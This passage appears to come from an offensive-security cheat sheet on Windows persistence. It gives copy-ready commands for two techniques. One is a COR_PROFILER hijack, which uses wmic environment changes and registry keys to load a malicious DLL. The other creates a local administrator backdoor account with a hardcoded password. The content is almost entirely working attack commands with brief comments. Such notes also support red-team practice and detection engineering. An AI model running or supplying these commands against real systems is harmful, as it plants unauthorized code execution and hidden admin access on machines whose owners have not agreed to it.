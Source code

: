 # Persistence

### COR Profiler Variable Hijack

Source: [https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework](https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework)

```powershell
# deleting existing COR_PROFILER variable
wmic ENVIRONMENT where "name='COR_PROFILER'" delete

# creating COR_ENABLE_PROFILING variable and setting it to 1
wmic ENVIRONMENT create name="COR_ENABLE_PROFILING",username="<system>",VariableValue="1"

# creating a new COR_PROFILER variable
wmic ENVIRONMENT create name="COR_PROFILER",username="<system>",VariableValue="<arbitrary CLSID>"

# adding registry keys for malicious DLL
reg.exe add HKLM\Software\Classes\CLSID\<arbitrary CLSID>\InProcServer32 /V ThreadingModel /T REG_SZ /D Apartment /F
reg.exe add HKLM\Software\Classes\CLSID\<arbitrary CLSID>\InProcServer32 /VE /T REG_SZ /D "<malicious_DLL>" /F
```

### Local Administrator Account Creation

```powershell
net user burmat BURMAT123123123 /add
net localgroup administrators burmat /add 
net localgroup administrators
```




